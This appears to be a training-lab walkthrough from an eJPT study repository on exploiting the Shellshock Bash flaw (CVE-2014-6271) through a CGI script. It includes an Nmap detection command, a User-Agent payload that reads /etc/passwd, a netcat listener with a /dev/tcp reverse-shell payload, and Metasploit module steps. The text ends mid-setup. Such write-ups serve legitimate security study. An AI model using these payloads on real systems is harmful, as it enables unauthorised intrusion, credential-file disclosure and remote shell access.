 # Bash CVE-2014-6271 Vulnerability (Shellshock)


__Step 1: Navigate to the target domain.__

![image0](/Cgi/image0.jpg)

_A website is running at port 80 of the target._

__Step 2: Right-click and select "View Page Source."__

![image1](/Cgi/image1.jpg)


_A CGI script is running on the target server._

__Step 3: Use the Nmap NSE script to check if the server is vulnerable to shellshock attack.__

__Command:__

- __`nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local`__

![image2](/Cgi/image2.jpg)



__Step 4: Right-click and select “Send to Repeater” Option and Navigate to the Repeater tab.__

![image3](/Cgi/image3.jpg)


__Step 5: Modify the User-Agent and inject the malicious payload.__

__Payload:__

- __`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`__


![image4](/Cgi/image4.jpg)


__Click on the Send button.__

![image5](/Cgi/image5.jpg)

__Step 6: Start netcat__

command:

__`nc -nvlp 1234`__

__Step 7: use the below payload in user agent__
command:
- __`() { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/<yourip>/1234 0>&1'`__

![image10](/Cgi/image10.png)

__you will get reverse shell__

![image11](/Cgi/image11.png)



# Method 2 using metasploit framework

__Step 1: Start the `msfconsole`__
__command:__
- __`service postgresql start & msfconsole`__

![image12](https://github.com/Chittu13/eJPTv2/blob/main/Cgi/image12.png)

__Step 2: Search shellshock and type the below command__
__command:__
 - __`use exploit/multi/http/apache_mod_cgi_bash_env_exec`__
![image13](/Cgi/image13.png)

__Step 3: set the rhost and 
__command:__
  - __`set RHOSTS <target ip>`__
  - __`set TARGETURI /gettime.cig`__
![image13](/Cgi/image14.png)

